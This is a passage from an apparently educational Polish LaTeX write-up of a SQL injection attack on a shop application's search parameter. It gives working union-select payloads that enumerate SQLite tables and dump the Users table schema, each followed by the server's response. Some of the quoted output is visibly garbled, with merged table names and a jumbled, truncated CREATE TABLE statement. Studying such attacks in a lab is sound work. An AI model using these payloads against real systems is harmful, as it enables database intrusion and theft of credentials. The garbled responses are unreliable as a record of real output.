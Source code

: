 Główną zmienną jest tutaj parametr Query String o nazwie q, który dla tej końcówki pozwala na dostęp do bazy danych.

Atak został podzielony na trzy etapy:
\begin{itemize}
    \item Zdobycie informacji o bazie
    \begin{itemize}
        \item Parametr/zapytanie
        
        \begin{lstlisting}
?q=apple')) union select 1,2,3,4,5,6,7,8,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%'--
        \end{lstlisting}

        \item Odpowiedź serwera
        
        \begin{lstlisting}
['Users', 'Addresses', 'Baskets', 'Products', 'BasketItems', 'Captchas', 'Cardsedbacks', 'ImageCaptchas', 'Memories', 'PrivacyRequests', 'Quantities', 'Recyclllets']
        \end{lstlisting}    
    \end{itemize}

    Odpowiedź zawiera listę tabel niesystemowych, dzięki czemu wiadomo jak nazywa się tabela zawierająca potencjalnie wartościowe dane. Ten atak wykorzystuje już wcześniej znaną informację o wersji bazy aplikacji. Bez takiej wiedzy należało by to zbadać stosując np. charakterystyczne funkcje różnych implementacji baz danych
    
    
    
    
    \item Zdobycie informacji o tabeli
    
    \begin{itemize}
        \item Parametr/zapytanie
        
        \begin{lstlisting}
?q=apple')) union select 1,2,3,4,5,6,7,8,group_concat(sql) from sqlite_master where type='table' and tbl_name like 'Users%'--
        \end{lstlisting}

        \item Odpowiedź serwera
        
        \begin{lstlisting}
CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHA `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` 55) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/imag5) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, IME)
        \end{lstlisting}    
    \end{itemize}
    

\end{itemize}
